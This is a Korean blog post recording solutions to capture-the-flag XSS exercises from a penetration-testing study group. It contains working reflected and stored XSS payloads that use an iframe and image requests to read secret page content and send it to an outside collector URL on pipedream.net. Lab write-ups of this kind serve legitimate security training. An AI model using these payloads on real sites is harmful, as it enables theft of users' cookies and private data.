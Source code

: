 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# Basic Script Prac
## mypage -> reflected xss
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        var e = f.document.getElementsByClassName('card-text')[1].textContent;
        console.log(f);
        let i = new Image();
        i.src = "[공격자 서버]/?cookie=" + e;
    })
</script>
```

# Steal Info 2
## notice_list
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        let e = f.document.querySelectorAll('input')[1].placeholder;
        console.log(f);
        let i = new Image();
        i.src = "https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=" + e;
    })
</script>
```